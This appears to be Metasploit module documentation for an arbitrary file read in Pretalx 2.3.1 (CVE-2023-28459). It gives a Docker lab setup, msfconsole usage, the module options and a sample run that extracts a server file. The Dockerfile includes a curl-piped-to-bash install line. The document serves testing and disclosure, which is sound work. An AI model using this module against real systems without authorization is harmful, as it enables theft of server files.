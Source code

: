 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. The module requires set of credentials of Pretalx user and Pretalx needs to have existing conference, where the attacker can submit malicious proposal.

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `Dockerfile`:
```
FROM python:3.10-bookworm

RUN apt-get update && \
    apt-get install -y git gettext libmariadb-dev libpq-dev locales libmemcached-dev build-essential \
            supervisor \
            sudo \
            locales \
            --no-install-recommends && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    dpkg-reconfigure locales && \
    locale-gen C.UTF-8 && \
    /usr/sbin/update-locale LANG=C.UTF-8 && \
    mkdir /etc/pretalx && \
    mkdir /data && \
    mkdir /public && \
    groupadd -g 999 pretalxuser && \
    useradd -r -u 999 -g pretalxuser -d /pretalx -ms /bin/bash pretalxuser && \
    echo 'pretalxuser ALL=(ALL) NOPASSWD:SETENV: /usr/bin/supervisord' >> /etc/sudoers

ENV LC_ALL=C.UTF-8


COPY pretalx/pyproject.toml /pretalx
COPY pretalx/src /pretalx/src
COPY deployment/docker/pretalx.bash /usr/local/bin/pretalx
COPY deployment/docker/supervisord.conf /etc/supervisord.conf

RUN pip3 install -U pip setuptools wheel typing && \
    pip3 install -e /pretalx/[mysql,postgres,redis] && \
    pip3 install pylibmc && \
    pip3 install gunicorn && \
    chmod -R 777 /public


RUN python3 -m pretalx makemigrations
RUN python3 -m pretalx migrate

RUN apt-get update && \
    apt-get install -y curl && \
    curl -fsSL https://deb.nodesource.com/setup_20.x | bash - && \
    apt install nodejs npm && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    python3 -m pretalx rebuild

RUN chmod +x /usr/local/bin/pretalx && \
    cd /pretalx/src && \
    rm -f pretalx.cfg && \
    chown -R pretalxuser:pretalxuser /pretalx /data /public && \
    rm -f /pretalx/src/data/.secret && \
    cat /public/static/CACHE/css/main.* >> /pretalx/src/static.dist/common/scss/uncompressed.css && \
    cat /public/static/CACHE/css/main.* >> /pretalx/src/pretalx/static/common/scss/uncompressed.css && \
    python3 /pretalx/src/manage.py compress --force

USER pretalxuser
VOLUME ["/etc/pretalx", "/data", "/public"]
EXPOSE 80
ENTRYPOINT ["pretalx"]
CMD ["all"]
```
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password - `sudo docker exec -it pretalx pretalx init`
1. Go to `orga/event/`
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/`
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/pretalx_file_read_cve_2023_28459`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set EMAIL [user email]`
1. Do: `set PASSWORD [password]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`

## Options

### CONFERENCE_NAME

The slug (shortcut) name of the conference. The module requires existing conference, where an attacker can submit malicious proposal (e.g. conference-secret-2025)

### FILEPATH
Absolute path to the target file.

### MEDIA_URL

Pretalx uses path to `media` folder, which is used as prepend to target file path to achieve arbitrary file read. The default value is `/media`, however, it can be modified by user.

### EMAIL

Email of Pretalx user that can approve proposals and release schedule.

### PASSWORD

Password of Pretalx user that can approve proposals and release schedule.

## Scenarios
```
msf auxiliary(scanner/http/pretalx_file_read_cve_2023_28459) > run verbose=true 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1
[*] Register malicious proposal
[*] Logging with credentials: [username]/[password]
[*] Approving proposal
[*] Adding h85WcLe4t4 to schedule
[*] Releasing schedule
[*] Trying to extract target file
[*] Extraction successful
[*] Stored results in /home/ms/.msf4/loot/20250725165914_default_192.168.168.146_pretalx.etcpas_473038.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
